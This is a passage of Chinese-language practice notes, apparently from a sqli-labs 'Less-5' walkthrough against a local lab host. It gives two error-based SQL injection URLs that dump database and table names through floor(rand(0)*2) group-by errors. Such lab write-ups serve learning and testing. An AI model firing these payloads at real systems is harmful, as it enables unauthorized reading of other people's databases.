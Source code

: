 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604215659443.png" alt="image-20230604215659443" style="zoom:50%;" />

##### 爆库

如果返回的数据太长，那么就会无法显示报错信息，所以要保证注入的成功执行，需要使用`concat`替换`group_concat`，并使用`limit`限制显示数量

```
http://192.168.231.129:9001/Less-5/?id=1' union select 1,count(*),concat_ws('~',(select concat(schema_name) from information_schema.schemata limit 4,1),floor(rand(0)*2)) as a from information_schema.columns group by a%23
```

![image-20230604223407182](%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604223407182.png) 

##### 爆表

```
http://192.168.231.129:9001/Less-5/?id=1' union select 1,count(*),concat_ws('~',(select concat(table_name) from information_schema.tables where table_schema=database() limit 3,1),floor(rand(0)*2)) as a from information_schema.columns group by a%23
```
